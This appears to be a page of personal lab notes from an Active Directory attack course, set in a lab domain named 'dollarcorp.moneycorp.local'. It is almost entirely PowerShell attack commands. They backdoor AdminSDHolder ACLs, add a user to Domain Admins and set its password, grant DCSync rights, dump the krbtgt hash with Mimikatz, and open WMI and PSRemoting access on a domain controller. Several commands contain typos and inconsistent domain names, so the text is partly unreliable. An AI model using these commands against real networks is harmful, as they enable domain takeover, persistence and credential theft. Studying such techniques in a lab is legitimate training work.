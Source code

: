 # NOT FULL
###### ACLs - AdminSDHolder
##### Local
`. .\Invoke-SDPropagator.ps1`
`Invoke-SDPropagator -timeoutMinutes 1 -showProgress -Verbose`
_FOR pre-Server 2008 machine:_
`Invoke-SDPropagator -taskname FixUpInheritance -timeoutMinutes 1 -showProgress -Verbose`
##### Remote
### - PowerView
`Add-ObjectAcl -TargetADSprefix 'CN=AdminSDHolder,CN=System' -PrincipalSamAccountName student1 R-ights All -Verbose`
### - ActiveDirectory module
`Set-ADACL -DistinguishedName 'CN=AdminSDHolder,CN=System,DC=dolarcorp,DC=moneycorp,DC=local' -Principal student1 -Verbose`

`$sess = New-PSSession -ComputerName dcorp-dc.dolarcorp.moneycorp.local`
`Invoke-Command -Filepath .\Invoke-SDPropagator.ps1 $Session $sess`
`Enter-PSSession -Session $sess`
### - PowerView
`Invoke-SDPropagator -showProcess -timeoutMinutes 1`
`Get-ObjectAcl -SamAccount "Domain Admins" -ResolveGUIDs | ?{$_.IdentityReference -match 'student1'}``
### - Ad module
`(Get-Acl -Path 'AD:\CN=Domain Admins,CN=Users,DC=dollarcorp,DC=moneycorp,DC=local').Access |  ?{$_.IdentityReference -match 'student1'}``
### - PowerView
`Add-DomainGroupMember -Identity 'Domain Admins' -Members testda -Verbose`
### - AD
`AddADGroupMember -Identity 'Domain Admins' -Members testda`
### - PW
`Set-DomainUserPassword -Identity testda -AccountPassword (ConvertTo-SecureString "Password123" -AsPlainText -Force) -Verbose`
### - AD
`SetADAccountPassword -Identity testda -AccountPassword (ConvertTo-SecureString "Password123" -AsPlainText -Force) -Verbose`
### - PowerView
`Add-ObjectAcl -TargetDistinguishedName 'DC=dollarcorp,DC=moneycorp,DC=local' -PrincipalSamAccountName student1 -Rights All -Verbose`
### - ActiveDirectory module
`Set-ADACL -DistinguishedName 'DC=dolarcorp,DC=moneycorp,DC=local' -Principal student1 -Verbose`
### - PowerView
`Add-ObjectAcl -TargetDistinguishedName 'DC=dollarcorp,DC=moneycorp,DC=local' -PrincipalSamAccountName student1 -Rights DCSync -Verbose
### - ActiveDirectory module
`Set-ADACL -DistinguishedName 'DC=dolarcorp,DC=moneycorp,DC=local' -Principal student1 -Verbose`
## Using
`Enter-PSSession -computer dcorp-dc
`Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"'`

# ACLs - Security Descriptors
#### On local
`Set-remoteWMI -UserName student1 -Verbose`

## Get 
`Get-WmiObject -class win32_operatingsystem -Computername dcorp-dc.dollar.money.local`
#### On remote
`Set-remoteWMI -UserName student1 -ComputerName dcorp-dc -namespace 'root\cimv2' -Verbose`
#### On remote
`Set-remoteWMI -UserName student1 -ComputerName dcorp-dc -Credential Administrator -namespace 'root\cimv2' -Verbose`
#### On remote
`Set-remoteWMI -UserName student1 -ComputerName dcorp-dc -namespace 'root\cimv2' -Remove -Verbose`

`Set-RemotePSRemoting -UserName studentadmin -ComputerName dcorp-dc.dollar.money.local -Verbose`
`Invoke-Command -ScriptBlock{whoami} -ComputerName dcorp-dc.dollar.money.local`
